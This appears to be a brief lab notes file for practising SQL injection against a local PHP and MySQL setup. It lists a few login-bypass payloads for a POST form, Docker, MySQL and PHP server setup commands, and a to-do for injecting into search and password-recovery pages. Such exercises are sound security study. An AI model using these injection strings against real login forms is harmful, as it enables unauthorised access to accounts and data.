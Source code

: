 ### Injections Laboratory

# injections to POST form
Arthur' -- -
a' OR 'b'='b
a' OR True LIMIT 2,1 -- - 

# boolean-based injections
// to be completed

# time-based injections
// to be completed

### SETUP
# install docker
docker stop mysql-container
docker start mysql-container

# start mysql
mysql -h 172.17.0.2 -u root -p

# start php Server in the current repo/directory
php -S 0.0.0.0:1234

# TODO:
check the last slides to perform injections on the search.php and password_recovery.php